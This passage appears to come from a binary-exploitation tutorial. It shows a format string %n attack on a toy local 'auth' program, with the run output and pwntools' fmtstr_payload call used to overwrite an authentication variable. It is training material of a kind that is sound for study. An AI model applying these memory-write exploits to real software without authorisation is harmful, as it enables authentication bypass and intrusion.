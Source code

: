 ```
[+] Starting local process './auth': pid 4045
Password: 

[*] Process './auth' stopped with exit code 0 (pid 4045)
(À\x04||||||
Auth is 10
Authenticated!
```

### Pwntools

As you can expect, pwntools has a handy feature for automating `%n` format string exploits:

```python
payload = fmtstr_payload(offset, {location : value})
```

The `offset` in this case is `7` because the 7th `%p` read the buffer; the location is **where** you want to write it and the value is **what**. Note that you can add as many location-value pairs into the dictionary as you want.

```python
payload = fmtstr_payload(7, {AUTH : 10})
```

You can also grab the location of the `auth` symbol with pwntools:

```python
elf = ELF('./auth')
AUTH = elf.sym['auth']
```

> Check out the pwntools tutorials for more cool features